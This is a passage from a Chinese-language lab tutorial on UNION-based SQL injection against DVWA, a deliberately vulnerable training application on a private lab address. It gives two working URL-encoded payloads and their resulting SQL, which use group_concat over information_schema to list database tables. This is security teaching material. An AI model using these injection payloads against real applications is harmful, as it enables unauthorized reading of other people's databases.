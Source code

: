 一个表名为一个回显

![](image/3.jpg)

方法二：

有时候回显只会显示第一行，所以就需要将表名拼接成一个字符串，URL和SQL语句如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(table_name) from Information_schema.tables where table_schema = database()#';
```

![](image/2.jpg)

方法三：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,(select%20group_concat(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database())%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,(select group_concat(table_name) from Information_schema.tables where table_schema = database())#';
```
